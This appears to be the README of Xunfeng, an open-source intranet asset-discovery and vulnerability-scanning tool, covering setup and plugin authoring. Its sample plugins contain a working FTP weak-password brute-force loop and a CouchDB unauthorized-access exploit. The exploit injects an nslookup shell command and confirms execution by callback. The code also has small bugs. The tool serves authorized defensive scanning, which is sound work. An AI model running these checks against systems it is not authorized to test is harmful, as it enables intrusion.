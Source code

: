 # 巡风 [![License](https://img.shields.io/aur/license/yaourt.svg)](https://github.com/ysrc/xunfeng/blob/master/LICENSE)
----------

**巡风**是一款适用于企业内网的`漏洞快速应急、巡航扫描`系统，通过搜索功能可清晰的了解内部网络资产分布情况，并且可指定漏洞插件对搜索结果进行快速漏洞检测并输出结果报表。

其主体分为两部分：`网络资产识别引擎`，`漏洞检测引擎`。

网络资产识别引擎会通过用户配置的IP范围`定期自动`的进行端口探测（支持调用MASSCAN），并进行指纹识别，识别内容包括：服务类型、组件容器、脚本语言、CMS。

漏洞检测引擎会根据用户指定的`任务规则`进行定期或者一次性的漏洞检测，其支持2种插件类型、标示符与脚本，均可通过web控制台进行添加。

如果你不是从公众号看过来的，可以[看下](http://mp.weixin.qq.com/s/sFDY8vzonIW2gAcw0CCkzQ)，说了一些部署的注意点。

## 安装指南

[![Python 2.7](https://img.shields.io/badge/python-2.7-yellow.svg)](https://www.python.org/) [![MyGet](https://sec-pic-ly.b0.upaiyun.com/xunfeng/static/MongoVersion.svg?a=1)](https://www.mongodb.com/download-center?jmp=nav)

国内镜像 https://code.aliyun.com/ysrc/xunfeng.git

* [Windows 安装指南](./docs/install/Windows.md)
* [OSX 安装指南](./docs/install/OSX.md)
* [Linux 安装指南](./docs/install/Linux.md)
* [Docker 安装指南](./docs/install/Docker.md)


## 配置指南
- 在配置-爬虫引擎-网络资产探测列表 设置内网IP段**（必须配置，否则无法正常使用,每个IP段最大限制为10个B段）**。
- 在配置-爬虫引擎-资产探测周期 设置计划规则。
- 可启用MASSCAN(探测范围为全端口)代替默认的端口探测脚本，需安装好MASSCAN后配置**程序完整绝对路径**，点击开启即可完成切换。
  MASSCAN需chmod +x 给执行权限，并手动执行确保可正常运行后再开启。
- 其他配置根据自身需要进行修改。

## 插件编写
漏洞插件支持2种类型，标示符与python脚本，可以通过官方推送渠道安装或者自行添加。

**JSON标示符**

![](https://sec-pic-ly.b0.upaiyun.com/img/161220/261479B35BD86E479D6E40DAA990E700749CA50E.png)

**Python脚本**

插件标准非常简洁，只需通过 `get_plugin_info` 方法定义插件信息，`check`函数检测漏洞即可。

```python
# coding:utf-8

import ftplib

def get_plugin_info():  # 插件描述信息
    plugin_info = {
        "name": "FTP弱口令",
        "info": "导致敏感信息泄露，严重情况可导致服务器被入侵控制。",
        "level": "高危",
        "type": "弱口令",
        "author": "wolf@YSRC",
        "url": "",
        "keyword": "server:ftp",  # 推荐搜索关键字
    }
    return plugin_info

def check(ip, port, timeout): # 漏洞检测代码
    user_list = ['ftp', 'www', 'admin', 'root', 'db', 'wwwroot', 'data', 'web']
    for user in user_list:
        for pass_ in PASSWORD_DIC:  # 密码字典无需定义，程序会自动为其赋值。
            pass_ = str(pass_.replace('{user}', user))
            try:
                ftp = ftplib.FTP()
                ftp.timeout = timeout
                ftp.connect(ip, port)
                ftp.login(user, pass_)
                if pass_ == '': pass_ = "null"
                if user == 'ftp' and pass_ == 'ftp: return u"可匿名登录"
                return u"存在弱口令，账号：%s，密码：%s" % (user, pass_)  # 成功返回结果，内容显示在扫描结果页面。
            except:
                pass
```

此外系统内嵌了辅助验证功能:

> DNS：触发，nslookup randomstr IP，验证， http://ip:8088/randomstr ，返回YES即存在。
> HTTP：触发，http://ip:8088/add/randomstr ，验证， http://ip:8088/check/randomstr ，返回YES即存在。

使用例子:

```python
import urllib2
import random
import socket

def get_plugin_info():  # 插件描述信息
    plugin_info = {
            "name": "CouchDB未授权访问",
            "info": "导致敏感信息泄露，攻击者可通过控制面板执行系统命令，导致服务器被入侵。",
            "level": "高危",
            "type": "未授权访问",
            "author": "wolf@YSRC",
            "url": "",
            "keyword": "server:couchdb",  # 推荐搜索关键字
    }

def get_ver_ip(ip):
    csock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    csock.connect((ip, 80))
    (addr, port) = csock.getsockname()
    csock.close()
    return addr

def random_str(len):
    str1=""
    for i in range(len):
        str1+=(random.choice("ABCDEFGH1234567890"))
    return str(str1)

def check(ip,port,timeout):
    rand_str = random_str(8)
    cmd = random_str(4)
    server_ip = get_ver_ip()
    req_list = [
        ["/_config/query_servers/%s"%(cmd),'"nslookup %s %s>log"'%(rand_str,server_ip)],
        ["/vultest123",''],
        ["/vultest123/test",'{"_id":"safetest"}']
    ]
    for req_info in req_list:
        try:
            request = urllib2.Request(url+req_info[0],req_info[1],timeout=timeout)
            request.get_method = lambda: 'PUT'
            urllib2.urlopen(request)
        except:
            pass
    try:
        req_exec = urllib2.Request(url + "/vultest123/_temp_view?limit=11",'{"language":"%s","map":""}'%(cmd))
        req_exec.add_header("Content-Type","application/json")
        urllib2.urlopen(req_exec)
    except:
        pass
    check = urllib2.urlopen("http://%s:8088/%s"%(server_ip,rand_str)).read()
    if 'YES' in check:
        return u"未授权访问"
```

## 流程演示视频

[![](https://sec-pic-ly.b0.upaiyun.com/xunfeng/static/intro.png)](https://sec-pic-ly.b0.upaiyun.com/xunfeng/xunfeng.mp4)


## 文件结构

    │  Config.py  # 配置文件
    │  README.md  # 说明文档
    │  Run.bat  # Windows启动服务
    │  Run.py  # webserver
    │  Run.sh    # Linux启动服务，重新启动前需把进程先结束掉
    │
    ├─aider
    │      Aider.py  # 辅助验证脚本
    │
    ├─db  # 初始数据库结构
    │
    ├─masscan  # 内置编译好的Masscan程序（CentOS win64适用），需要chmod+x给执行权限（root），若无法使用请自行编译安装。
    ├─nascan
    │  │  NAScan.py # 网络资产信息抓取引擎
    │  │
    │  ├─lib
    │  │      common.py 其他方法
    │  │      icmp.py  # ICMP发送类
    │  │      log.py  # 日志输出
    │  │      mongo.py  # 数据库连接
    │  │      scan.py  # 扫描与识别
    │  │      start.py  # 线程控制
    │  │
    │  └─plugin
    │          masscan.py  # 调用Masscan脚本
    │
    ├─views
    │  │  View.py  # web请求处理
    │  │
    │  ├─lib
    │  │      Conn.py  # 数据库公共类
    │  │      CreateExcel.py  # 表格处理
    │  │      Login.py  # 权限验证
    │  │      QueryLogic.py  # 查询语句解析
    │  │
    │  ├─static #静态资源目录
    │  │
    │  └─templates #模板文件目录
    │
    └─vulscan
        │  VulScan.py  # 漏洞检测引擎
        │
        └─vuldb # 漏洞库目录

扫描下方二维码关注YSRC公众号，回复自己的微信号+巡风，会有人拉你进巡风的微信讨论群。

![](http://mmbiz.qpic.cn/mmbiz/PAV8ewtdsKpkeG9VRYNhC76iacVSe3ichYiajictdF2Q34PQo7iaPV15jjGiaAev6SqpeK5maDvtAYUtqXEYUib4ljM3A/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1)
